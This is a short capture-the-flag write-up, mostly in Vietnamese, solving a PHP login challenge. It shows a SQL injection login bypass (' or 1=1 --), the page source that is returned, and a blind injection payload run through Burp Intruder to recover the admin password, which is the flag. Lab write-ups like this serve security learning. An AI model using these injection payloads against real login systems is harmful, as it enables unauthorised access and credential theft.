 - Đăng nhập với username:  ' or 1=1 --, nhận được đoạn script: 
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

```html
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

=> Flag là mật khẩu của admin

- Dùng Burp Suite để brute force ra mật khẩu của admin
    + Dùng Intruder để lấy độ dài của pass: id=' OR LENGTH(pass)=§10§;--&pass=
    => lấy được LENGTH(pass)=21 do khác biệt ở cột Length
    + Tiếp tục dùng Intruder để lấy pass của admin: brute force(a-z0-9)
    => lấy được flag kpwa4ji3uzk6trpk
    + Thử các kí tự đặc biệt với phần tử còn trống, lấy được kí tự : _
    + Login with user: admin & pass: flag_kpwa4ji3uzk6trpk
